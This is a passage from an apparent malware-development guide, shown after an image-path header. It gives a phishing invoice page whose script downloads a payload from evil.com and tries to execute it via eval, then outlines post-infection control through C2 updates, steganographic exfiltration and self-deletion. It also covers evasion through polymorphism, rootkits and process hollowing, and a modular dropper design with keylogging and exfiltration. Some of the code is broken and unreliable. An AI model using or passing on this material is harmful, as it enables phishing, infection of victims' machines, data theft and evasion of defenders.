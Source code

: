 - **Example (Advanced Phishing HTML with JS Downloader)**:
  ```html
  <!DOCTYPE html>
  <html>
  <body>
      <p>Urgent: Review attached invoice.</p>
      <script>
          // JS to fetch and exec payload (bypass via eval)
          fetch('https://evil.com/payload.bin')
              .then(r => r.arrayBuffer())
              .then(buf => {
                  var shellcode = new Uint8Array(buf);
                  // Reflective loading (pseudo: use WebAssembly for exec)
                  eval(atob('window.location="data:application/octet-stream;base64,' + btoa(String.fromCharCode.apply(null, shellcode)) + '"'));
              });
      </script>
  </body>
  </html>
  ```

#### 11. Monitor and Update

Maintain control post-infection.

- **Logging**: Encrypted journals via Event Tracing for Windows (ETW) hooks; exfil via steganography in images.
- **Updates**: Pull diffs from C2; use binary patching with libdiffpy.
- **Kill Switch**: Domain-based heartbeat; self-delete on detection (e.g., via SDelete).

#### 12. Advanced Techniques

Elevate sophistication for longevity.

- **Polymorphism**: Mutate strings and APIs at runtime (e.g., syscall via fresh hashes: `NtCreateFile` hashed as 0x12345678).
- **Metamorphism**: Engine-rewrite code using LLVM obfuscator; generate unique assembly per instance.
- **Rootkits**: User-mode (DKOM via EPROCESS unlink) or kernel-mode (SSDT hooking); hide with Direct Kernel Object Manipulation (DKOM).
- **AI Integration**: Use ML for adaptive evasion (e.g., GANs to morph traffic signatures).
- **Fileless**: Operate in memory via process hollowing (UnmapViewOfSection + NtMapViewOfSection).

#### Example of a Complex Malware Structure

```
MalwareLoader.exe (Dropper)
│
├─ modules/
│  ├─ ExploitModule.dll (Vuln scanner + ROP chainer)
│  ├─ PayloadCore.dll (Keylog + Exfil + Escalation)
│  ├─ PersistenceMgr.dll (Multi-vector hooks)
│  ├─ Obfuscator.dll (Runtime crypter + Anti-VM checks)
│  ├─ CnCBeacon.dll (DGA + Multi-protocol)
│  └─ LoggingAgent.dll (Encrypted ETW sink)
└─ config.json (Targets, keys; encrypted at rest)
```
